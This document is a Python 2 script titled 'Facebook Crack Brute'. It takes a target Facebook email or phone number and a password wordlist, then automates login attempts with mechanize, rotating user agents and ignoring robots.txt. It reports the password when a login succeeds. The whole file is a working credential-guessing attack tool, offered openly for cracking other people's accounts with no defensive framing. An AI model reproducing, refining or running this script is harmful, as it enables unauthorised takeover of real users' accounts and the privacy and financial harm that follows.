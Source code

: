 
#!/usr/bin/env python
# -*- coding: UTF-8 -*-
# This Cooding is Coode in python 2 now it willbe renew soon

import sys
import mechanize
import cookielib
import random
#pip2 install mechanize
#pip2 install requests



email = str(raw_input("Enter the Facebook Username (or) Email (or) Phone Number : "))


passwordlist = str(raw_input("Enter the wordlist name and path : "))


login = 'https://www.facebook.com/login.php?login_attempt=1'


useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
	global br
	br = mechanize.Browser()
	cj = cookielib.LWPCookieJar()
	br.set_handle_robots(False)
	br.set_handle_redirect(True)
	br.set_cookiejar(cj)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
	welcome()
	search()
	print("Password does not exist in the wordlist")

	
	
def brute(password):
	sys.stdout.write("\r[*] Trying ..... {}\n".format(password))
	sys.stdout.flush()
	br.addheaders = [('User-agent', random.choice(useragents))]
	site = br.open(login)
	br.select_form(nr = 0)
	br.form['email'] = email
	br.form['pass'] = password
	sub = br.submit()
	log = sub.geturl()
	if log != login and (not 'login_attempt' in log):
			print("\n\n[+] Password Find = {}".format(password))
			raw_input("ANY KEY to Exit....")
			sys.exit(1)

			
def search():
	global password
	passwords = open(passwordlist,"r")
	for password in passwords:
		password = password.replace("\n","")
		brute(password)

		
#welcome Hackers
def welcome():
	wel = """
        +=========================================+
        |..........   Facebook Crack Brute   ...........|
        +-----------------------------------------+
        |            #Author: Technical Dipesh          | 
        |	       Version 1.0                      |
 	|   https://www.youtube.com/channel/UCXuKDM3J_GkCxmdki8Hxh4w      |
        +=========================================+
        |..........  fb-brute  ...........|
        +-----------------------------------------+\n\n
"""
	total = open(passwordlist,"r")
	total = total.readlines()
	print wel 
	print " [*] Account to crack : {}".format(email)
	print " [*] Loaded :" , len(total), "passwords"
	print " [*] Cracking, please wait ...\n\n"

	
if __name__ == '__main__':
	main()
